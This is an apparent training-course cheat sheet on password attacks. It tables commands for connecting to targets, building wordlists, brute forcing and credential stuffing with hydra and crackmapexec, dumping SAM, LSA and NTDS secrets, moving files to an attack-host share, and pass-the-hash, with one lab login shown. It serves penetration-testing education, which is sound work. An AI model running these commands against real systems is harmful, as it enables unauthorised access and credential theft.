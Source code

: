 Connecting to Target

|   |   |
|---|---|
|Command|Description|
|xfreerdp /v:<ip> /u:htb-student /p:HTB_@cademy_stdnt!|CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol.|
|evil-winrm -i <ip> -u user -p password|Uses Evil-WinRM to establish a Powershell session with a target.|
|ssh user@<ip>|Uses SSH to connect to a target using a specified user.|
|smbclient -U user [\\\\<ip>\\SHARENAME](file://%3cip%3e/SHARENAME)|Uses smbclient to connect to an SMB share using a specified user.|
|python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/|Uses smbserver.py to create a share on a linux-based attack host. Can be useful when needing to transfer files from a target to an attack host.|

Password Mutations

|   |   |
|---|---|
|Command|Description|
|cewl [https://www.inlanefreight.com](https://www.inlanefreight.com) -d 4 -m 6 --lowercase -w inlane.wordlist|Uses cewl to generate a wordlist based on keywords present on a website.|
|hashcat --force password.list -r custom.rule --stdout > mut_password.list|Uses Hashcat to generate a rule-based word list.|
|[https://github.com/NotSoSecure/password_cracking_rules](https://github.com/NotSoSecure/password_cracking_rules)|OneRuleToRuleThemAll.rule|
|./username-anarchy -i /path/to/listoffirstandlastnames.txt|Users username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential username.|
|curl -s [https://fileinfo.com/filetypes/compressed](https://fileinfo.com/filetypes/compressed) \| html2text \| awk '{print tolower($1)}' \| grep "\." \| tee -a compressed_ext.txt|Uses Linux-based commands curl, awk, grep and tee to download a list of file extensions to be used in searching for files that could contain passwords.|

Remote Password Attacks

|   |   |
|---|---|
|Command|Description|
|crackmapexec winrm <ip> -u user.list -p password.list|Uses CrackMapExec over WinRM to attempt to brute force user names and passwords specified hosted on a target.|
|crackmapexec smb <ip> -u "user" -p "password" --shares|Uses CrackMapExec to enumerate smb shares on a target using a specified set of credentials.|
|hydra -L user.list -P password.list <service>://<ip>|Uses Hydra in conjunction with a user list and password list to attempt to crack a password over the specified service.|
|hydra -l username -P password.list <service>://<ip>|Uses Hydra in conjunction with a username and password list to attempt to crack a password over the specified service.|
|hydra -L user.list -p password <service>://<ip>|Uses Hydra in conjunction with a user list and password to attempt to crack a password over the specified service.|
|hydra -C <user_pass.list> ssh://<IP>|Uses Hydra in conjunction with a list of credentials to attempt to login to a target over the specified service. This can be used to attempt a credential stuffing attack.|
|crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam|Uses CrackMapExec in conjunction with admin credentials to dump password hashes stored in SAM, over the network.|
|crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa|Uses CrackMapExec in conjunction with admin credentials to dump lsa secrets, over the network. It is possible to get clear-text credentials this way.|
|crackmapexec smb <ip> -u <username> -p <password> --ntds|Uses CrackMapExec in conjunction with admin credentials to dump hashes from the ntds file over a network.|
|evil-winrm -i <ip> -u Administrator -H "<passwordhash>"|Uses Evil-WinRM to establish a Powershell session with a Windows target using a user and password hash. This is one type of Pass-The-Hash attack.|

